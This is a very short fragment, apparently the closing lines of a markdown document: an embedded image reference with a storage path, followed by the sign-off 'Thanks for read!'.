


**Thanks for read!**

